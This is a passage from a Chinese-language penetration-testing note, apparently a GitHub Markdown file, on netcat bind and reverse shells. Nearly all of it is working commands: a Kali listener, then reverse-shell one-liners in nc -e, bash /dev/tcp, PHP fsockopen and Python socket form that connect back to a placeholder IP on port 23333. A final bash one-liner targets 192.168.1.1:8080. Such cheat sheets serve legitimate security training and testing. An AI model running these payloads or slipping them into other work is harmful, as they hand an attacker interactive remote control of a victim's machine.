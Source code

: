   3. 这时客户端就拿到服务端shell的控制权了

     ```shell
     nc ip 23333
     ```

#### 反弹shell

* **客户端送shell**
  1. 在客户端选择增强版netcat（一般默认是free-bsd版的nc）
  
     ```shell
     update-alternatives --config nc
     ```
  
     
  
  2. kali上启动服务端
  
     ```shell
     nc -lvp 23333
     ```
  
     
  
  3. 客户端上钩
  
     ```shell
     # nc反弹
     nc ip 23333 -e /bin/sh
     # bash反弹
     bash -i >& /dev/tcp/ip/23333 0>&1
     # php反弹
     php -r '$f=fsockopen("ip",23333);exec("/bin/sh -i <&3 >&3 2>&3");'
     # python反弹
     python -c 'import socket,subprocess,os; \
     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
     s.connect(("ip",23333));
     os.dup2(s.fileno(),0);
     os.dup2(s.fileno(),1);
     os.dup2(s.fileno(),2);
     p=subprocess.call(["/bin/sh","-i"]);'
     ```
  

#### bash一句话反弹

```shell
bash -i >& /dev/tcp/192.168.1.1/8080 0>&1
```
